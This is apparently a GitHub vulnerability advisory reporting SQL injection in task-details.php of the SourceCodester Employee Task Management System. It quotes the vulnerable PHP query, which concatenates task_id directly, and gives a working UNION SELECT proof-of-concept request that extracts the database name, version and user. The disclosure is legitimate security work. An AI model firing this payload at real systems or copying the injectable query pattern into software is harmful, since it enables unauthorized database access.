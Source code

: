 # SOURCECODESTER / Employee Task Management System - SQL Injection task-details.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)

## Vendor Homepage:
> https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

## Affected Component
> /task-details.php

## Code
```php
$sql = "SELECT a.*, b.fullname 
FROM task_info a
LEFT JOIN tbl_admin b ON(a.t_user_id = b.user_id)
WHERE task_id='$task_id'";
$info = $obj_admin->manage_all_info($sql);
$row = $info->fetch(PDO::FETCH_ASSOC);
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /task-details.php?task_id='+union+select+1,concat('Database+Name%3a+',+database()),concat('Database+Version%3a+',version()),concat('Database+User%3a+',user()),5,6,7,8+--+- HTTP/1.1
Host: 127.0.0.1
Research-By: NoChizPlz
```

## Screenshot
![img.png](SQL%20Injection%20-%20task-details%2Fimg.png)


